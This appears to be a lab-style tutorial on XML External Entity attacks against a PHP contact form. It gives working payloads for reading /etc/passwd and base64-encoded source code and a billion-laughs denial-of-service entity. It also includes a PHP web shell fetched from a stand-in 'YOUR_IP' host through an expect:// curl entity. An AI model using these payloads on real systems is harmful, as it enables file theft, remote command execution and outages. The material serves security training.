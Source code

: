 # Local File Disclosure

**Overview of XXE**

XML External Entity (XXE) vulnerabilities arise when a web application processes unfiltered XML data from user input, allowing attackers to define external entities that can reference local files on the server. This can lead to sensitive data exposure, including configuration files and source code, and can even enable remote code execution (RCE) under certain conditions.

**Identifying XXE Vulnerabilities**

To identify potential XXE vulnerabilities, look for web pages that accept XML input. For example, a contact form might send data in XML format:

**Contact Form Example**:

```
http://SERVER_IP:PORT/index.php
```

When submitting the form, intercept the HTTP request using a tool like Burp Suite. The request may look like this:

```http
POST /submitDetails.php HTTP/1.1
Content-Type: application/xml

<email>
  <name>John Doe</name>
  <tel>1234567890</tel>
  <email>email@xxe.htb</email>
  <message>Hello!</message>
</email>
```

If the application uses outdated XML libraries and does not sanitize input, it may be vulnerable to XXE.

**Testing for XXE**

1. **Initial Test**: Submit the form without modifications and observe the response. If the application echoes back the email value, it indicates a potential vulnerability.
2. **Defining Internal Entities**: To test further, define a new XML entity in the request:

```xml
xmlCopy Code<!DOCTYPE email [
  <!ENTITY company "Inlane Freight">
]>
```

Replace the email value with the entity reference:

```xml
<email>
  <name>John Doe</name>
  <tel>1234567890</tel>
  <email>&company;</email>
  <message>Hello!</message>
</email>
```

If the response shows "Inlane Freight" instead of "\&company;", the application is vulnerable to XXE.

**Reading Sensitive Files**

Once internal entities are confirmed, attempt to define external entities to read local files:

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
```

Send the modified request. If the response includes the contents of `/etc/passwd`, the XXE vulnerability has been successfully exploited.

**Reading Source Code**

To read the source code of files like `index.php`, use PHP's wrapper filters to avoid XML format issues:

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

This will return a base64 encoded string of the file. Decode it to view the source code.

**Remote Code Execution (RCE)**

XXE can also lead to remote code execution. One method is to fetch a web shell from your server:

1.  **Create a PHP Web Shell**:

    ```bash
    echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
    ```
2.  **Start a Python HTTP Server**:

    ```bash
    python3 -m http.server 80
    ```
3.  **Use XXE to Download the Shell**:

    ```xml
    <!DOCTYPE email [
      <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'YOUR_IP/shell.php'">
    ]>
    <email>
      <name>John Doe</name>
      <tel>1234567890</tel>
      <email>&company;</email>
      <message>Hello!</message>
    </email>
    ```

Replace spaces with `$IFS` to avoid breaking the XML syntax. If successful, you can interact with the web shell for command execution.

**Other XXE Attacks**

* **Server-Side Request Forgery (SSRF)**: Use XXE to access internal services or enumerate open ports.
* **Denial of Service (DoS)**: Create self-referencing entities to exhaust server resources, though modern servers often mitigate this.

**Example DoS Payload**:

```xml
<!DOCTYPE email [
  <!ENTITY a0 "DOS">
  <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
  ...
]>
<email>
  <name>John Doe</name>
  <tel>1234567890</tel>
  <email>&a10;</email>
  <message>Hello!</message>
</email>
```

This payload creates a recursive loop that can lead to server resource exhaustion.

#### Conclusion

XXE vulnerabilities can be exploited to read sensitive files, source code, and even execute remote commands. Identifying and exploiting these vulnerabilities requires careful testing and understanding of XML structure and entity definitions. Always ensure that XML input is properly sanitized and that secure coding practices are followed to mitigate these risks.
